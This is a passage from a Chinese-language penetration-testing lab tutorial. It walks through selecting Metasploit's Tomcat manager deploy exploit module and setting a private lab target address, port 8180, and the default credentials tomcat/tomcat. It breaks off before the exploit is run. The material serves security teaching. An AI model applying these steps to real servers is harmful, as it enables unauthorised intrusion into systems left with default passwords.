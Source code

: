 接着选择相应的攻击模块，使用命令如下：

```
# 使用已经获得的密码进行渗透
use exploit/multi/http/tomcat_mgr_deploy
```

![图片描述](../imgs/1480472827813.png-wm.png)


再由 show 命令查看相应所需填写参数，并设置，这里告诉大家一个清屏的小技巧 `ctrl` + `l`，即为清屏： 

```
# 查看参数
show options

# 设置目标主机地址和所要攻击的端口
set rhost 192.168.122.102

# 设置端口信息
set rport 8180

# 设置 httpusername 账户名
set httpusername tomcat

# 设置 httppassword 密码
set httppassword tomcat
```
